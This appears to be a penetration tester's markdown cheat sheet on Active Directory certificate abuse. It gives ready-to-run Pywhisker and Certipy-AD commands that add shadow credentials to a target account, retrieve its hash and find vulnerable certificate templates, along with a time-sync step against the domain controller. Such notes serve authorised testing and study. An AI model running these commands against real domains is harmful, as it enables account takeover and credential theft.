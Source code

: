 # 08 - Certificate abuse
This section contains references for abusing certificates to obtain or escalate credentials.

NOTE: Some of these commands may require time syncing with the target domain controller:

```
# Disable NTP auto-update and match date and time with target
sudo timedatectl set-ntp off		
sudo rdate -n $target_ip

# Turn on ntp auto-update when done
#sudo timedatectl set-ntp on`
```




## Shadow credentials
Shadow credentials generates a certificate for a user account, that can be used to authenticate as that account.

### Creating Shadow Credentials with Pywhisker
This tool allows users to manipulate the msDS-KeyCredentialLink attribute of a target user/computer to obtain full control over that object.

Install into a virtual environment using pip: `pip install pywhisker`
- `pywhisker -d $domain -u "$user" -p "$pass" --target "$target_account" --action "list"`:

List current KeyCredential IDs for the target account
- `pywhisker -d $domain -u "$user" -p "$pass" --target "$target_account" --action "add" --filename output.pfx`


### Creating Shadow Credentials with Certipy-AD
Certipy can return a hash much easier than using Pywhisker.
```
# If you have a username & password
certipy-ad shadow auto -u $user@$domain -p $pass -account $target_account -dc-ip $target_ip

# If you have a usrename & hash
certipy-ad shadow auto -u $user@$domain -hashes $hash -account $target_account -dc-ip $target_ip
```



## Finding certificate vulnerabilities with Certipy-AD 
Certipy has a find mode that can be used fo find vulnerabilities. By default output will be stored as .json and .txt format in the current folder.

```
certipy-ad find $user@$domain -p $pass -dc-ip $target_ip -vulnerable
```

Useful options:
- `enabled`: Show only enabled certificate templates
- `-vulnerable`: Only show vulnerable certificates or templates
- `-stdout`: Output result to console rather than storing as .json and .txt in current directory (default)